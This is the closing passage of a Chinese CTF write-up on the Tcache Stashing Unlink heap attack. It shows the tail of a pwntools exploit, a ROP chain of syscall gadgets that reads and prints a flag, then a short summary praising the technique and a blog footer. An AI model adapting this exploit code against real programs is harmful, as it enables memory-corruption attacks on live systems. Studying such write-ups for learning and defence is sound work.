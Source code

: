 ```
payload += p64(pop_rdx_r12) + p64(0x100) + p64(0)
payload += p64(syscall)
# write
payload += p64(pop_rax) + p64(1)
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi) + p64(flag_addr)
payload += p64(pop_rdx_r12) + p64(0x100) + p64(0)
payload += p64(syscall)
# gdb.attach(io)

io.send(payload)
# add(0xe0)
# io.recvuntil("Add Ptr: ")
# heap_base = int(io.recv(10),16) -0x2eb0
# suc("heap_base",heap_base)

# gdb.attach(io)
io.interactive()
```

## 总结


Tcache Stashing Unlink Attack在calloc申请堆块的情况下无疑是一种不错的选择，它继承了2\.29之后unsortbin attack的特性，同时在一定情况下还可以任意地址申请，是一个不错的攻击方法，因为平常遇到的有点少，但是还是得了解一下攻击方法什么的。


 \_\_EOF\_\_

       - **本文作者：** [CH13hh](https://github.com)
 - **本文链接：** [https://github.com/CH13hh/p/18605493](https://github.com)
 - **关于博主：** 评论和私信会在第一时间回复。或者[直接私信](https://github.com):[cmespeed楚门加速器](https://77yingba.com)我。
 - **版权声明：** 本博客所有文章除特别声明外，均采用 [BY\-NC\-SA](https://github.com "BY-NC-SA") 许可协议。转载请注明出处！
 - **声援博主：** 如果您觉得文章对您有帮助，可以点击文章右下角**【[推荐](javascript:void(0);)】**一下。
     
